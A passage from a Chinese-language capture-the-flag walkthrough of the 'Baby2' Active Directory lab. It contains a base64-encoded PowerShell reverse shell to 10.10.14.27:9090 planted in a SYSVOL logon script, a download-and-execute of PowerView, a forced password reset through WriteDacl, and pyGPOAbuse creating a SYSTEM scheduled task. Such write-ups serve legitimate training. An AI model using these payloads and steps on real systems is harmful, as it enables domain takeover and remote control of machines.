AArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==", 0, True

MapNetworkShare "\\dc.baby2.vl\apps", "V"
MapNetworkShare "\\dc.baby2.vl\docs", "L"

```
#### False = 不等待执行结束 不行
#### 删除 上传
```
[★]$ smbclient -U 'Carl.Moore%Carl.Moore' '//baby2.vl/SYSVOL'
Try "help" to get a list of possible commands.
smb: \> cd \baby2.vl\scripts\
smb: \baby2.vl\scripts\> del login.vbs
smb: \baby2.vl\scripts\> put login.vbs
putting file login.vbs as \baby2.vl\scripts\login.vbs (2.6 kb/s) (average 2.6 kb/s)
smb: \baby2.vl\scripts\> exit
```
#### 等着它主动连接
```
 [★]$ nc -lvnp 9090
listening on [any] 9090 ...
```
#### SYSVOL 是域控制器的共享目录
#### 当用户登录域时，系统会自动执行：\\baby2.vl\SYSVOL\baby2.vl\scripts\login.vbs
```
[★]$ nc -lvnp 9090
listening on [any] 9090 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.234.72] 61755
whoami
baby2\amelia.griffiths
PS C:\Windows\system32>
PS C:\Windows\system32> cat ..\..\user.txt
```
### Lateral Movement 横向移动
```
[★]$ bloodhound-python -d baby2.vl -u Carl.Moore -p Carl.Moore -c all -ns 10.129.234.72 --dns-tcp

[★]$ sudo neo4j start
Directories in use:
home:         /var/lib/neo4j
config:       /etc/neo4j
logs:         /var/log/neo4j
plugins:      /var/lib/neo4j/plugins
import:       /var/lib/neo4j/import
data:         /var/lib/neo4j/data
certificates: /var/lib/neo4j/certificates
licenses:     /var/lib/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:181033). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```
#### username: neo4j
#### password: neo4j
```
[★]$ bloodhound
```
#### Upload Data 上传了多个.json 
#### 搜索CARL.MOOER 双击选中 ! Mark User as Owned
####  (In the Bloodhound menu -> Node Info Tab -> Outbound Object Control ->Transitive Object Control )
#### 通过CARL.MOOER 找到了  OFFICE@ABAY2.VL Inbound Object Control ->Transitive Object Control
#### 找到了 AMELIA.GRIFFITHS@BABY2.VL 

#### Amelia Griffiths -> MemberOf -> LEGACY@BABY2.VL
#### LEGACY@BABY2.VL -> WriteDacl -> GPOADM@BABY2.VL,GPO-MANAGEMENT@BABY2.VL
#### 用户对组策略对象拥有什么 ACL gpoadm？（区分大小写）GenericAll

```
1. “Amelia Griffiths”这个用户属于老用户组的一员。
2. 该保留组对 GPO-MANAGEMENT（OU）以及 gpoadm 用户账户设置了“写入访问控制列表”权限。
3. gpoadm 用户对默认域策略以及默认域控制器策略的通用所有访问控制列表（ACL）拥有权限。
```
#### 攻击步骤如下：以“Amelia Griffiths”用户身份滥用“写 DACL”访问控制列表，以获取对“gpoadm”用户账户的访问权限。然后，对组策略对象滥用“通用所有”访问控制列表。
#### 首先，要从 Windows 中滥用“写 DACL”访问控制列表，我们必须将 PowerView 转移到目标位置，然后进行导入。
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```
[★]$ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
[★]$ python3 -m http.server 8011
Serving HTTP on 0.0.0.0 port 8011 (http://0.0.0.0:8011/) ...
```
```
PS C:\Users\amelia.griffiths> iex (iwr -usebasicparsing http://10.10.14.27:8011/PowerView.ps1)
PS C:\Users\amelia.griffiths> add-domainobjectacl -rights "all" -targetidentity "gpoadm" -principalidentity "Amelia.Griffiths"
PS C:\Users\amelia.griffiths> $cred = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\Users\amelia.griffiths> set-domainuserpassword gpoadm -accountpassword $cred
```
```
[★]$ nxc smb 10.129.234.72 -u gpoadm -p 'Password123!'

SMB         10.129.234.72   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.72   445    DC               [+] baby2.vl\gpoadm:Password123!
```
### Privilege Escalation
#### 最后，若要通过组策略对象来滥用通用所有访问控制列表（GenericAll ACL），请使用 pyGPOAbuse。首先，让我们克隆该存储库。
https://github.com/Hackndo/pyGPOAbuse
#### 在使用此功能之前，我们需要先了解相关通用策略组的 GPO 编号。
#### 注意：正如我们之前所见，我们有 2 个 GPO 可供选择，但只需要其中一个就能利用该漏洞。
#### 要获取 GPO 编号，通过“bloodhound”工具，先选择相关 GPO 的节点。然后，在“Node Info”选项卡中，您可以看到“GPO File Path ”字段。该路径的最后部分即为 GPO ID - 31B2F340-016D-11D2-945F00C04FB984F9 。
#### 点击那个 GPO 节点,图标通常是 蓝色文档样式


#### 一旦我们了解了这一点，就可以按照以下方式执行 pyGPOAbuse.py 脚本。
```
[★]$ cd pyGPOAbuse
[~/pyGPOAbuse][★]$ ls
assets   pygpoabuse     pyproject.toml  requirements.txt
LICENSE  pygpoabuse.py  README.md       setup.py
[~/pyGPOAbuse][★]$ python3 pygpoabuse.py baby2.vl/gpoadm:'Password123!' -command "Powershell -exec bypass -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgA3ACIALAA5ADAAOQAwACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==" -dc-ip 10.129.234.72 -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9"
SUCCESS:root:ScheduledTask TASK_60e9109b created!
[+] ScheduledTask TASK_60e9109b created!
```
#### 在这里，我们正在使用之前所使用的相同的 PowerShell 反向 shell。请注意，您可以使用任何您想要的命令（例如，添加一个新的管理员用户）
#### 一旦创建了定时任务，我们就需要按照以下方式更新组策略：
```
PS C:\Users\amelia.griffiths> gpupdate
Updating policy...


Computer Policy update has completed successfully.

User Policy update has completed successfully.


```
#### 一旦完成更新，我们的指令就会被执行，从而为我们提供一个反向 shell，其身份标识为 NT AUTHORITY\SYSTEM
#### 侦听的端口是和之前的一样，不一样的操作是先开侦听再刷新gpupdate
```
[★]$ nc -lvnp 9090
listening on [any] 9090 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.234.72] 58631
whoami
nt authority\system
PS C:\Windows\system32> type ..\..\Users\Administrator\Desktop\root.txt
```
